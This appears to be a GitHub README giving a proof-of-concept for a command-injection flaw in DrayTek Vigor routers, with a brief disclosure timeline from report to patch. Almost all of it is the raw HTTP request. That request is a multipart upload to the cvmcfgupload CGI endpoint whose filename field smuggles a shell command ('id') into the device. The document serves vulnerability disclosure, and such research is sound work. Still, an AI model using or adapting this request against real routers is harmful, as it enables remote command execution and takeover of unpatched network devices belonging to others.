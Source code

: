 # Vigor-Commond-Injection
poc

```
POST /cgi-bin/mainfunction.cgi/cvmcfgupload?1=2 HTTP/1.1
Host: xxx.xxx.xxx.xxx:xxxx
Content-Length: 174
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh,en;q=0.9,zh-CN;q=0.8,la;q=0.7
Connection: close

------WebKitFormBoundary
Content-Disposition: form-data; name="abc"; filename="t';id;echo '1_"
Content-Type: text/x-python-script



------WebKitFormBoundary--
```



04/13/2020 report to DreyTek

04/13/2020 DreyTek confirm it

06/18/2020 DreyTek release a new version.

